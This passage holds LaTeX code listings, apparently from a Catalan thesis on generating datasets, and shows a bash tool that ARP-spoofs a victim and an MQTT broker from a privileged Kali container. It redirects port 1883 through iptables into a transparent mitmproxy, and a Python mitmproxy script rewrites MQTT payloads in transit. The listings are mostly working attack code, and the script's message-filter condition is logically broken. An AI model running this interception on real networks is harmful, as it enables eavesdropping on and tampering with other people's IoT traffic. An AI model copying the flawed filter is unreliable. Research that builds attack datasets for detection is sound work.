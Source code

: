 \begin{lstlisting}[language=bash, caption={Eina automatitzada per a la generació de datasets}, label=lst:tool]
#7- Arp spoof i MITM proxy
if [ "\$flag_mitm" = true ]; then
    echo -e "\n executant arp spoofing \n"
    sudo docker run -d --name mitm  --privileged --network host -v "\$(pwd)/escaner":/home kalitfg sleep infinity
    sudo docker exec -it mitm bash -c "apt update && sysctl -w net.ipv4.ip_forward=1 && iptables -t nat -A PREROUTING -p tcp --dport 1883 -j REDIRECT && iptables -t nat -A POSTROUTING -p tcp --dport 1883 -j SNAT --to-source \$ip_victima"
    sudo docker exec -d mitm bash -c "arpspoof -i \$interface -t \$ip_victima -r \$ip_broker"
    sudo docker exec -it mitm bash -c "mitmproxy --mode transparent --listen-port 1883 --tcp-hosts '.*' -s /home/mqtt_mitm.py"
    #sudo docker exec -d mitm bash -c "bettercap -iface wlp42s0 -eval \"set arp.spoof.fullduplex true; set arp.spoof.targets \$ip_victima; arp.spoof on\""
    #sudo docker exec -it mitm bash -c "apt update && apt install -y bettercap && bettercap -iface wlp42s0 -eval \"set tcp.proxy.port 1883 ; set tcp.address '\$ip_broker' ; set tcp.port 1883 ; tcp.proxy on ; set arp.spoof.internal true ; set arp.spoof.targets '\$ip_victima', '\$ip_broker' ; arp.spoof on\""
fi

while true; do #per apagar el docker amb Ctl+C
    sleep 1
done     

\end{lstlisting}

\begin{lstlisting}[language=Python, caption={Script de modificació de missatges en mitmproxy}, label=lst:ScriptMITM]
from mitmproxy import tcp

def tcp_message(flow: tcp.TCPFlow):
    data = flow.messages[-1].content
    try:
        if b"test" and not flow.messages[-1].from_client in data:
            print("[+] Mensaje original:", data)
            data_mod = data.replace(b'"test":1', b'"test":5')
            flow.messages[-1].content = data_mod
            print("[+] Mensaje modificado:", data_mod)
    except Exception as e:
        print("[!] Error procesando mensaje:", e)
\end{lstlisting}


